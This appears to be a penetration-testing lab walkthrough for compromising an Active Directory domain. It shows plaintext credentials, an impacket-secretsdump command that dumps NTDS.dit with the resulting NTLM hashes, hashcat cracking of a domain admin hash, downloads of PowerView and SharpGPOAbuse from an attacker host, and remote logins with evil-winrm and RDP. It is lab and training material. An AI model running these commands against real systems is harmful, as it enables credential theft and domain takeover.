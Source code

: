 Dump NTDS.dit:
```bash
impacket-secretsdump 'charlotte':'Game2On4.!'@192.168.190.97 -just-dc-ntlm
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d38e7c66048f80fd9566ab85afca76b1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:431f60ffa71152f8445bea272663d7c3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
secura.yzx\michael:1103:aad3b435b51404eeaad3b435b51404ee:86593b65670ad9905e397ed56e6a86f3:::
secura.yzx\charlotte:1104:aad3b435b51404eeaad3b435b51404ee:dd76c2d1f3dd82f52fd7a233b37ce1c5:::
secura.yzx\eric.wallows:4101:aad3b435b51404eeaad3b435b51404ee:a1f18f9362b5485cca07aedda6792454:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e9d4d23acff00ac00b84108cd1daad97:::
SECURE$:1105:aad3b435b51404eeaad3b435b51404ee:7ab8b0770c6aefa689e8e4ed1fc20bd6:::
ERA$:1106:aad3b435b51404eeaad3b435b51404ee:29f461a9f5b0f30aeb4641d5ccb9c3e9:::
```

Crack michaels (= domain admin) password:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

# 86593b65670ad9905e397ed56e6a86f3:angelomichael
```

---
# Alternative - GPO

Download PowerView, SharpGPOAbuse.exe:
```powershell
iwr -uri http://192.168.45.167/PowerView.ps1 -Outfile PowerView.ps1
iwr -uri http://192.168.45.167/SharpGPOAbuse.exe -Outfile SharpGPOAbuse.exe
```

## Attempt 1 - Enumerate GPO from VM01 as Eric

RDP login to VM01 as Eric:
```bash
xfreerdp /u:'Eric.Wallows' /p:'EricLikesRunning800' /v:192.168.205.95 /cert:ignore +clipboard /dynamic-resolution
```

## Attempt 2 - Enumerate GPO from VM02 as Administrator

```bash
evil-winrm -i 192.168.205.96 -u administrator -p 'Almost4There8.?'
```

## Attempt 3 - Enumerate GPO from DC01 as charlotte

Access DC01 as charlotte:
```bash
evil-winrm -i 192.168.205.97 -u charlotte -p 'Game2On4.!'
```
